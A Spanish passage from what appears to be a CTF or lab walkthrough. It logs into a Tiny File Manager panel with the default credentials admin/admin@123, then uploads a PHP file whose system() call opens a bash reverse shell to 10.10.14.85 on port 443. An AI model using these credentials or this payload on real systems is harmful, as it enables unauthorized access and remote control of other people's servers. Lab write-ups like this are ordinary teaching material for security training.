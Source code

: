 ```bash
Username: admin
Password: admin@123
```

![alt text](./img/3.png)

Con esto obtenemos acceso al administrador de archivos. Podemos ver los archivos de la web y el directorio «tiny».

También podemos ver que podemos subir archivos en este botón que aparece en la parte superior de la página.

Podemos ver que la página está hecha en PHP, por lo que vamos a intentar enviar un ReverseShell en código PHP.

### shell.php

Crea un archivo que puedes llamar «shell.php» en el que escribes el comando que se ejecutará en la máquina víctima.

```bash
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

Aquí comparto un generador de shell inverso, Rev Shell.
